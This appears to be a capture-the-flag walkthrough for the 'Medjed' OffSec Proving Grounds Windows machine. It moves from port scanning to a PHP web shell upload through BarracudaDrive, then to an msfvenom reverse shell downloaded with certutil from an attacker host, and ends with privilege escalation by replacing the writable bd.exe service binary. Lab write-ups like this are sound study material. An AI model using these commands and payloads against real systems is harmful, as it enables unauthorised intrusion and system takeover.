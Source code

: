# Medjed

## Intro

Medjed is an intermediate windows machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql?        syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8000/tcp  open  http-alt      syn-ack ttl 125 BarracudaServer.com (Windows)
30021/tcp open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta
33033/tcp open  unknown       syn-ack ttl 125
44330/tcp open  ssl/unknown   syn-ack ttl 125
45332/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
45443/tcp open  http          syn-ack ttl 125 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## User

After browsing to port 8000, barracuda is asking for a first time admin set up.

Create a php one liner.

```
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
```

Upload to the following directory using barracuda.

```
C:\xampp\htdocs
```

Execute a system command.

```
http://192.168.157.127:45332/shell.php?cmd=whoami
```

Create the shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.166 LPORT=5040 -f exe > shell.exe
```

Upload the shell.

```
http://192.168.157.127:45332/shell.php?cmd=certutil%20-urlcache%20-split%20-f%20http://192.168.45.166:8000/shell.exe%20%20C:\Users\Jerren\Desktop\shell.exe
```

After executing, a shell is received as jerren.

## Admin

We have read/write access to the barracuda binary.

Move the binary.

```
move C:\bd\bd.exe
```

Copy another msfvenom shell to the directory.

```
copy /y admin.exe C:\bd\bd.exe
```

Restart.

```
shutdown /r
```
